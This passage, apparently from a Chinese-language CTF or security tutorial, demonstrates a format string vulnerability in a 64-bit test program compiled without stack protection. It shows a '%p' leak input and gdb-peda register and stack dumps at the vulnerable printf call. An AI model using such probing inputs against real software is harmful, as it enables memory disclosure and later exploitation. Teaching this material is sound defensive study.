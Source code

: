 还是上面的程序，但是这次我们把它编译成 64 位：

```text
$ gcc -fno-stack-protector -no-pie fmt.c
```

使用 `AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.` 作为输入：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0xffffffff
RDX: 0x88888888
RSI: 0x1
RDI: 0x7fffffffe3d0 ("AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.")
RBP: 0x7fffffffe460 --> 0x400660 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffe3c0 --> 0x4241000000000000 ('')
RIP: 0x400648 (<main+113>:      call   0x4004e0 <printf@plt>)
R8 : 0x7fffffffe3c6 --> 0x44434241 ('ABCD')
R9 : 0xa ('\n')
R10: 0x7ffff7dd4380 --> 0x7ffff7dd0640 --> 0x7ffff7b9ed3a --> 0x636d656d5f5f0043 ('C')
R11: 0x246
R12: 0x400500 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe540 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40063d <main+102>: mov    r8,rdi
   0x400640 <main+105>: mov    rdi,rax
   0x400643 <main+108>: mov    eax,0x0
=> 0x400648 <main+113>: call   0x4004e0 <printf@plt>
   0x40064d <main+118>: mov    edi,0xa
   0x400652 <main+123>: call   0x4004d0 <putchar@plt>
   0x400657 <main+128>: nop
   0x400658 <main+129>: leave
Guessed arguments:
arg[0]: 0x7fffffffe3d0 ("AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.")
arg[1]: 0x1
arg[2]: 0x88888888
arg[3]: 0xffffffff
arg[4]: 0x7fffffffe3c6 --> 0x44434241 ('ABCD')
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe3c0 --> 0x4241000000000000 ('')
0008| 0x7fffffffe3c8 --> 0x4443 ('CD')
0016| 0x7fffffffe3d0 ("AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.")
0024| 0x7fffffffe3d8 ("%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.")
0032| 0x7fffffffe3e0 (".%p.%p.%p.%p.%p.%p.%p.")
0040| 0x7fffffffe3e8 ("p.%p.%p.%p.%p.")
0048| 0x7fffffffe3f0 --> 0x2e70252e7025 ('%p.%p.')
0056| 0x7fffffffe3f8 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000400648 in main ()
gdb-peda$ x/10g $rsp
0x7fffffffe3c0: 0x4241000000000000      0x0000000000004443
0x7fffffffe3d0: 0x4141414141414141      0x70252e70252e7025
0x7fffffffe3e0: 0x252e70252e70252e      0x2e70252e70252e70
0x7fffffffe3f0: 0x00002e70252e7025      0x0000000000000001
0x7fffffffe400: 0x0000000000f0b5ff      0x00000000000000c2
gdb-peda$ c
Continuing.
```